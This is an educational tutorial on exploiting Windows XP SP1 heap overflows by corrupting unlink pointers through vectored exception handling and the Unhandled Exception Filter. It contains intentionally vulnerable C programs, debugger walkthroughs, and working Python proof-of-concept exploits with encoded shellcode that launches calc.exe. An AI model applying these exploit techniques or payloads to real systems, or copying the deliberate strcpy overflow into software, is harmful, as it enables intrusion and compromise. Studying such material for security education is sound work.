#include <windows.h>
#include <stdio.h>
DWORD MyExceptionHandler(void);
int foo(char *buf);
int main(int argc, char *argv[])
{
HMODULE l;
l = LoadLibrary("msvcrt.dll");
l = LoadLibrary("netapi32.dll");
printf("\n\nHeapoverflow program.\n");
if(argc != 2)
return printf("ARGS!");
foo(argv[1]);
return 0;
}
DWORD MyExceptionHandler(void)
{
printf("In exception handler....");
ExitProcess(1);
return 0;
}
int foo(char *buf)
{
HLOCAL h1 = 0, h2 = 0;
HANDLE hp;
__try{
hp = HeapCreate(0,0x1000,0x10000);
if(!hp){
return printf("Failed to create heap.\n");
}
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,260);
printf("HEAP: %.8X %.8X\n",h1,&h1);
// Heap Overflow occurs here:
strcpy(h1,buf);
// This second call to HeapAlloc() is when we gain control
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,260);
printf("hello");
}
__except(MyExceptionHandler())
{
printf("oops...");
}
return 0;
}
Heap Overflows For Humans 101
Previously, with stack overflows, we have gained control of the execution pointer (EIP) some how whether that be through the exception handler or directly. Today we are going to discuss a series of techniques that have been tried and tested in time that gain control of execution without directly using EIP or SEH. By overwriting at a location in memory of our choice, with a controlled value, we are able to achieve an arbitrary DWORD overwrite.
If you are unfamiliar with stack based buffer overflows to an intermediate/advanced level then it is suggested that you focus in this area first. What we are about to cover, has been dead and buried for a while, so if you are looking for newer techniques to exploit the windows heap manager, don't stick around ;)
What you will need:
- Windows XP with just sp1 installed.
- A debugger (Olly Debugger, Immunity Debugger, windbg etc).
- A c/c++ compilier (Dev C++, lcc-32, MS visual C++ 6.0 (if you can still get it)).
- A scripting language of ease (I use python, maybe you can
use perl).
- A brain (and/or persistence).
- Some knowledge of Assembly, C and knowledge on how to dig through a debugger using HideDbg (plugin) for Olly or !hidedebug under immunity debugger
- Time.
We are going to focus on the core basics and fundamentals. The techniques presented will most probably be too old to use in the "real world" however it
must always be reminded that if one wants to move forward, one must know the past. And learn from it. Ok lets begin!
What is the heap and how does it work under XP?
The heap is a storage area where a process can retain data. Each process dynamically allocates and releases heap memory based on the requirements of the application this memory is globally accessible. It is important to point out that the stack grows towards 0x00000000 and yet the heap grows towards 0xFFFFFFFF. This means that if a process was to call HeapAllocate() twice, the second call would return a pointer that is higher than the first. Therefore any overflow of the first block will overflow into the second block.
Every process whether it is the default process heap or a dynamically allocated heap will contain multiple data structures. One of those data structures is an array of 128 LIST_ENTRY structures that keeps track of free blocks. This is known as the FreeLists. Each list entry holds two pointers at the beginning of the array and can be found at offset 0x178 into the heap structure. When a heap is created two pointers, which point to the first free block of memory that is available for allocation, are set at FreeLists[0].
Let that sink in, and then think about this. Assuming we have a heap with a base address of 0x00650000 and the first available block is located at 0x00650688 then we can assume the following four addresses:
At address 0x00650178 (Freelist[0].Flink) is a pointer with the value of 0x00650688 (Our first free block) At address 0x0065017c (FreeList[0].Blink) is a pointer with the value of 0x00650688 (Our first free block) At address 0x00650688 (Our first free block) is a pointer with the value of 0x00650178 (FreeList[0]) At address 0x0065068c (Our first free block) is a pointer with the value of 0x00650178 (FreeList[0])
When an allocation occurs, the FreeList[0].Flink and FreeList[0].Blink pointers are updated to point to the next free block that will be allocated. Furthermore the two pointers that point back to the FreeList are moved to the end of the newly allocated block . Every allocation or free, these pointers are updated. Therefore, these allocations are tracked in a doubly linked list.
When a heap buffer is overflowed into the heap control data, the updating of these pointers allows the arbitrary dword overwrites. An attacker at this point has the opportunity to modify the program control data such as function pointers and gain control of the processes execution path.
Exploiting Heap Overflows using Vectored Exception Handling
First, lets begin with our heap-veh.c code:
From the above code, we can see that their will be exception handling due to the __try block statement. Begin by compiling the code with your favourite compiler under Windows XP SP1.
Run the application on the command line, notice how it takes over 260 bytes for the exception handler to kick in.

Now of course when we run this in the debugger, we gain control of the second allocation (because freelist[0] is being updated with our attack string from the first allocation).

MOV DWORD PTR DS:[ECX],EAX MOV DWORD PTR DS:[EAX+4],ECX
These instructions are saying "Make the current value of EAX the pointer of ECX and make the current value of ECX the value of EAX at the next 4 bytes". From this we know we are unlinking or freeing the first allocated memory block.
EAX (what we write) : Blink ECX (location of where to write) : Flink
So what is vectored exception handling?
Vectored exception handling was introduced in windows XP and stores exception registration structures on the heap, unlike traditional frame exception handling such as SEH that stores its structure on the stack. This type of exception is called before any other frame based exception handling. The following structure depicts it's layout:
struct _VECTORED_EXCEPTION_NODE
{
DWORD m_pNextNode;
DWORD m_pPreviousNode;
PVOID m_pfnVectoredHandler;
}
All that you need to know is that the m_pNextNode points to the next _VECTORED_EXCEPTION_NODE structure therefore we must overwrite the pointer to _VECTORED_EXCEPTION_NODE (m_pNextNode) with our fake pointer. But what do we overwrite it with? lets take a look at the code that is responsible for dispatching the _VECTORED_EXCEPTION_NODE:
77F7F49E 8B35 1032FC77 MOV ESI,DWORD PTR DS:[77FC3210] 77F7F4A4 EB 0E JMP SHORT ntdll.77F7F4B4 77F7F4A6 8D45 F8 LEA EAX,DWORD PTR SS:[EBP-8] 77F7F4A9 50 PUSH EAX 77F7F4AA FF56 08 CALL DWORD PTR DS:[ESI+8]
So we MOV the pointer of _VECTORED_EXCEPTION_NODE into ESI and then shortly after we call ESI + 8. If we set the next pointer of the _VECTORED_EXCEPTION_NODE to an address that points at our shellcode - 0x08, then we should land very neatly in our buffer. Where do we find a pointer to our shellcode? Well there is one on the stack:

We can see our pointer to our shellcode on the stack. Ok no stress, lets use this hardcoded value 0x0012ff40. Except remember the call esi+8? well lets make sure we are right on target, so 0x0012ff40 - 0x08 = 0x0012ff38. Excellent so ECX is going to be set to 0x0012ff38. How do we find the m_NextNode (pointer to next _VECTORED_EXCEPTION_NODE)? Well in Olly (or immunity debugger) we can parse our exception so far using shift+f7 and try and continue through the code. The code will setup for the call to the first _VECTORED_EXCEPTION_NODE and as such will reveal the pointer:
77F60C2C BF 1032FC77 MOV EDI,ntdll.77FC3210 77F60C31 393D 1032FC77 CMP DWORD PTR DS:[77FC3210],EDI 77F60C37 0F85 48E80100 JNZ ntdll.77F7F485
You can see that the code is moving the m_pNextNode (our pointer that we need) into EDI. Excellent, lets set EAX to that value. So as it stands, we have the following values set: ECX = 0x77fc3210 EAX = 0x0012ff38. Of course we need our offsets to EAX and ECX, so we just create an MSF pattern and feed it into the application. Here is a quick reminder for your viewing pleasure:
Create msf pattern
Calculate offsets by turning on anti-debugging and triggering the exception


Ok so here is a skeleton PoC exploit:
import os
# _vectored_exception_node
exploit = ("\xcc" * 272)
# ECX pointer to next _VECTORED_EXCEPTION_NODE = 0x77fc3210 - 0x04
# due to second MOV writes to EAX+4 == 0x77fc320c
exploit += ("\x0c\x32\xfc\x77") # ECX
# EAX ptr to shellcode located at 0012ff40 - 0x8 == 0012ff38
exploit += ("\x38\xff\x12") # EAX - we don't need the null byte
os.system('"C:\\Documents and Settings\\Steve\\Desktop\\odbg110\\OLLYDBG.EXE" heap-veh.exe ' + exploit)
At this stage we cannot have shellcode after our ECX instruction because it contains a null byte. This may not always be the case as in this example we are using a strcpy to store our buffer in the heap.
Ok, at this point we hit our software breakpoints at "\xcc" and can simply replace this with some shellcode. The shellcode must not be more than 272 bytes as this is the only spot to place our shellcode.
import os
import win32api
calc = (
"\xda\xcb\x2b\xc9\xd9\x74\x24\xf4\x58\xb1\x32\xbb\xfa\xcd" +
"\x2d\x4a\x83\xe8\xfc\x31\x58\x14\x03\x58\xee\x2f\xd8\xb6" +
"\xe6\x39\x23\x47\xf6\x59\xad\xa2\xc7\x4b\xc9\xa7\x75\x5c" +
"\x99\xea\x75\x17\xcf\x1e\x0e\x55\xd8\x11\xa7\xd0\x3e\x1f" +
"\x38\xd5\xfe\xf3\xfa\x77\x83\x09\x2e\x58\xba\xc1\x23\x99" +
"\xfb\x3c\xcb\xcb\x54\x4a\x79\xfc\xd1\x0e\x41\xfd\x35\x05" +
"\xf9\x85\x30\xda\x8d\x3f\x3a\x0b\x3d\x4b\x74\xb3\x36\x13" +
"\xa5\xc2\x9b\x47\x99\x8d\x90\xbc\x69\x0c\x70\x8d\x92\x3e" +
"\xbc\x42\xad\x8e\x31\x9a\xe9\x29\xa9\xe9\x01\x4a\x54\xea" +
"\xd1\x30\x82\x7f\xc4\x93\x41\x27\x2c\x25\x86\xbe\xa7\x29" +
"\x63\xb4\xe0\x2d\x72\x19\x9b\x4a\xff\x9c\x4c\xdb\xbb\xba" +
"\x48\x87\x18\xa2\xc9\x6d\xcf\xdb\x0a\xc9\xb0\x79\x40\xf8" +
"\xa5\xf8\x0b\x97\x38\x88\x31\xde\x3a\x92\x39\x71\x52\xa3" +
"\xb2\x1e\x25\x3c\x11\x5b\xd9\x76\x38\xca\x71\xdf\xa8\x4e" +
"\x1c\xe0\x06\x8c\x18\x63\xa3\x6d\xdf\x7b\xc6\x68\xa4\x3b" +
"\x3a\x01\xb5\xa9\x3c\xb6\xb6\xfb\x5e\x59\x24\x67\xa1\x93")
# _vectored_exception_node
exploit = ("\x90" * 5)
exploit += (calc)
exploit += ("\xcc" * (272-len(exploit)))
# ECX pointer to next _VECTORED_EXCEPTION_NODE = 0x77fc3210 - 0x04
# due to second MOV writes to EAX+4 == 0x77fc320c
exploit += ("\x0c\x32\xfc\x77") # ECX
# EAX ptr to shellcode located at 0012ff40 - 0x8 == 0012ff38
exploit += ("\x38\xff\x12") # EAX - we dont need the null byte
win32api.WinExec(('heap-veh.exe %s') % exploit, 1)
Exploiting Heap Overflows using the Unhandled Exception Filter
The Unhandler Exception Filter is the last exception to be called before an application closes. It is responsible for dispatching of the very common message "An unhandled error occurred" when an application suddenly crashes. Up until this point, we have gotten to the stage of controlling EAX and ECX and knowing the offset location to both registers:
import os
exploit = ("\xcc" * 272)
exploit += ("\x41" * 4) # ECX
exploit += ("\x42" * 4) # EAX
exploit += ("\xcc" * 272)
os.system('"C:\\Documents and Settings\\Steve\\Desktop\\odbg110\\OLLYDBG.EXE" heap-uef.exe ' + exploit)
Unlike the previous example, our heap-uef.c file contains no traces of a custom exception handler. This means we are going to exploit the application using Microsoft's default Unhandled Exception Filter. Below is the heap-uef.c file:
#include <stdio.h>
#include <windows.h>
int foo(char *buf);
int main(int argc, char *argv[])
{
HMODULE l;
l = LoadLibrary("msvcrt.dll");
l = LoadLibrary("netapi32.dll");
printf("\n\nHeapoverflow program.\n");
if(argc != 2)
return printf("ARGS!");
foo(argv[1]);
return 0;
}
int foo(char *buf)
{
HLOCAL h1 = 0, h2 = 0;
HANDLE hp;
hp = HeapCreate(0,0x1000,0x10000);
if(!hp)
return printf("Failed to create heap.\n");
h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,260);
printf("HEAP: %.8X %.8X\n",h1,&h1);
// Heap Overflow occurs here:
strcpy(h1,buf);
// We gain control of this second call to HeapAlloc
h2 = HeapAlloc(hp,HEAP_ZERO_MEMORY,260);
printf("hello");
return 0;
}
When debugging this type of overflow, its important to turn anti debugging on within Olly or Immunity Debugger so that our Exception Filter is called and the offsets are at the correct location. First of all, we must find where we are going to write our dword too. This would be the pointer to the Unhandled Exception Filter. This can be found by going to and looking at the code for SetUnhandledExceptionFilter().

We can be see that a MOV instruction writes a value to the UnhandledExceptionFilter (0x77ed73b4) address:

When the call to SetUnhandledExceptionFilter() is made, it will write the value of ECX to the pointer provided by the UnhandledExceptionFilter. This may seem confusing at first as the unlink() process triggers ECX --> EAX, but in this specific case, we are abusing the way SetUnhandledExceptionFilter() sets up the UnhandledExceptionFilter function call. At this point, we can safely say that ECX will contain a pointer that pivots control to our shellcode. The following code should clear up any doubts:
77E93114 A1 B473ED77 MOV EAX,DWORD PTR DS:[77ED73B4] 77E93119 3BC6 CMP EAX,ESI 77E9311B 74 15 JE SHORT kernel32.77E93132 77E9311D 57 PUSH EDI 77E9311E FFD0 CALL EAX
Basically, the value at UnhandledExceptionFilter() is parsed into EAX and then soon after a call EAX is triggered. So we have UnhandledExceptionFilter() --> [attackers pointer], then the attackers pointer is dereferenced from UnhandledExceptionFilter() into EAX and executed. This pointer will then transfer control to our shellcode, or an instruction that will get us back to our shellcode.
If we take a look at EDI, we will notice a pointer at 0x78 bytes from the bottom of our payload.

If we simply call this pointer, we will be executing our shellcode. Therefore we need an instruction in EAX such as:
call dword ptr ds:[edi+74]
This instruction is easily found in many MS modules under XP sp1.

So then lets fill in these values into our PoC and see where we land:
import os
exploit = ("\xcc" * 272)
exploit += ("\xad\xbb\xc3\x77") # ECX 0x77C3BBAD --> call dword ptr ds:[EDI+74]
exploit += ("\xb4\x73\xed\x77") # EAX 0x77ED73B4 --> UnhandledExceptionFilter()
exploit += ("\xcc" * 272)
os.system('"C:\\Documents and Settings\\Steve\\Desktop\\odbg110\\OLLYDBG.EXE" heap-uef.exe ' + exploit)

Of course we simply calculate the offset to this part of the shellcode and insert our JMP instruction code and our shellcode:
import os
calc = (
"\x33\xC0\x50\x68\x63\x61\x6C\x63\x54\x5B\x50\x53\xB9"
"\x44\x80\xc2\x77" # address to WinExec()
"\xFF\xD1\x90\x90")
exploit = ("\x44" * 264)
exploit += "\xeb\x14" # our JMP (over the junk and into nops)
exploit += ("\x44" * 6)
exploit += ("\xad\xbb\xc3\x77") # ECX 0x77C3BBAD --> call dword ptr ds:[EDI+74]
exploit += ("\xb4\x73\xed\x77") # EAX 0x77ED73B4 --> UnhandledExceptionFilter()
exploit += ("\x90" * 21)
exploit += calc
os.system('heap-uef.exe ' + exploit)

Boom!

Conclusion
We have demonstrated two techniques for exploiting unlink() in its most primitive form under windows XP sp1. Other techniques can also apply such as RtlEnterCriticalSection or TEB Exception Handler exploitation. Following on from here we will present exploiting Unlink() (HeapAlloc/HeapFree) under Windows XP sp2 and 3 and bypass windows protections against the heap.
POC's
http://www.exploit-db.com/exploits/12240/
http://www.exploit-db.com/exploits/15957/
References
The shellcoder’s handbook (Chris Anley, John Heasman, FX, Gerardo Richarte)
David Litchfield (http://www.blackhat.com/presentations/win-usa-04/bh-win-04-litchfield/bh-win-04-litchfield.ppt)